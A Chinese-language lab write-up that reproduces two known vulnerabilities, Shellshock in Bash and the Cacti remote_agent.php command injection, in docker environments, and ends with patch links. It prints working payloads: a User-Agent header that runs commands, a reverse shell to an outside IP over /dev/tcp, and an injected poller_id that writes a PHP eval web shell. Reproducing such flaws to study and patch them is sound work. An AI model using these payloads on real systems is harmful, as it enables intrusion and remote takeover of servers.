Shellshock 破壳漏洞 CVE-2014-6271
简介
影响版本
GNU Bash <= 4.3
漏洞概述
GNU Bash 4.3及之前版本在评估某些构造的环境变量时存在安全漏洞，向环境变量值内的函数定义后添加多余的字符串会触发此漏洞，攻击者可利用此漏洞改变或绕过环境限制，以执行shell命令。某些服务和应用允许未经身份验证的远程攻击者提供环境变量以利用此漏洞。此漏洞源于在调用bash shell之前可以用构造的值创建环境变量。这些变量可以包含代码，在shell被调用后会被立即执行。
漏洞环境
编译运行：
1 | docker compose up -d |

服务启动后，有两个页面http://your-ip:8080/victim.cgi和http://your-ip:8080/safe.cgi。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。


漏洞复现
1.通过BP抓包victim.cgi页面，修改UA值
1 | User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id |

命令被执行
2.同样抓包safe.cgi页面，修改UA值

同样的数据包访问，但是不受影响
3.对于victim.cgi页面，利用修改UA值来进行反弹shell
1 | User-Agent:() { :; }; /bin/bash -i >& /dev/tcp/192.168.86.162/4444 0>&1; |


Cacti命令执行漏洞分析 (CVE-2022-46169)
简介
介绍
Cacti是一个服务器监控与管理平台，是一套基于PHP,MySQL,SNMP及RRDTool开发的网络流量监测图形分析工具，可为用户提供强大且可扩展的操作监控和故障管理框架。
影响版本
Cacti 1.2.17-1.2.22
漏洞成因
在其1.2.17-1.2.22版本中存在一处命令注入漏洞，攻击者可以通过X-Forwarded-For请求头绕过服务端校验并在其中执行任意命令。
漏洞环境
执行如下命令启动一个Cacti 1.2.22版本服务器：
1 | docker compose up -d |


环境启动后，访问http://your-ip:8080会跳转到登录页面。使用admin/admin作为账号密码登录，并根据页面中的提示进行初始化。

实际上初始化的过程就是不断点击“下一步”，直到安装成功：

这个漏洞的利用需要Cacti应用中至少存在一个类似是POLLER_ACTION_SCRIPT_PHP的采集器。所以，我们在Cacti后台首页创建一个新的Graph：

选择的Graph Type是“Device - Uptime”，点击创建：

漏洞复现
完成上述初始化后，切换到攻击者的角色。作为攻击者，直接访问payload 显示内容如下
1 | http://localhost:8080/remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`touch+/tmp/success` |

刷新，抓包

修改如下数据包：
1 | GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`touch+/tmp/success` HTTP/1.1 |

虽然响应包里没有回显，但是进入容器中即可发现/tmp/success已成功被创建：

同理，创建木马
1 | /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`echo%20%20'%3C%3Fphp%20%40eval(%24_POST%5B%22cmd%22%5D)%3B%3F%3E'%20%3Eshell.php` |


修复方案
1）官方升级
目前官方已发布安全补丁修复此漏洞，建议受影响的用户及时安装防护：
| 版本 | 补丁链接 |
|---|---|
| v1.2.X | https://github.com/Cacti/cacti/commit/b43f13ae7f1e6bfe4e8e56a80a7cd867cf2db52b |
| v1.3.x | https://github.com/Cacti/cacti/commit/b43f13ae7f1e6bfe4e8e56a80a7cd867cf2db52b |
注：若在PHP < 7.0下运行1.2.x实例，还需要进一步更改：https://github.com/Cacti/cacti/commit/a8d59e8fa5f0054aa9c6981b1cbe30ef0e2a0ec9
2）进行版本更新
从官方下载最新版本